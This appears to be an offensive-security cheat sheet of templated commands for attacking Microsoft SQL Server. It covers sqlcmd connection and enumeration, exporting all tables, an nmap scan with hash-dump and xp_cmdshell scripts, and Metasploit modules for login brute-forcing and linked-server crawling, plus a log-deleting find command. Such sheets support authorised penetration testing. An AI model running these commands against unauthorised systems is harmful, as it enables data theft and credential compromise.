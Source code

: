 # msssql

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/ldap  #port/1433 

## mssql - connect
#cat/ATTACK/CONNECT 
```
sqlcmd -S <ip> -U <user> -P <password>
```

## mssql - enumerate databases
#cat/RECON
```
sqlcmd -S <ip> -U <user> -P <password> -Q "SELECT name FROM sys.databases ORDER BY name;"
```

## mssql - enumerate tables in a database
#cat/RECON
```
sqlcmd -S <ip> -U <user> -P <password> -d "<db>" -Q "SET NOCOUNT ON; SELECT TABLE_SCHEMA + '.' + TABLE_NAME AS TableName FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' ORDER BY TABLE_SCHEMA, TABLE_NAME;"
```

## mssql - export a table to file
#cat/ATTACK/EXPLOIT
```
mssql-export-table <ip> <user> <password> <db> <table>
```

## mssql - export all tables to file
#cat/ATTACK/EXPLOIT
```
mssql-export-all-tables <ip> <user> <password> <db>
```

## mssql - erase empty log file in a current directory
#CAT/RECON
```
find . -maxdepth 1 -type f -name '*.log'   -exec sh -c 'grep -qP "[^[:space:]]" "$1" || { echo "delete: $1"; rm -- "$1"; }' _ {} \;
```


## mssql - enum
#cat/RECON
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <ip>
```

## mssql - enum sql login
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use admin/mssql/mssql_enum_sql_logins; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <pass_file>; run"
```

## mssql - enum configuration setting (xp-cmdshell)
#cat/RECON 
```
msfconsole -x "use auxiliary/admin/mssql/mssql_enum; set RHOST <ip>; set password <password>; run"
```

## mssql link crawler
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/windows/mssql/mssql_linkcrawler"
```

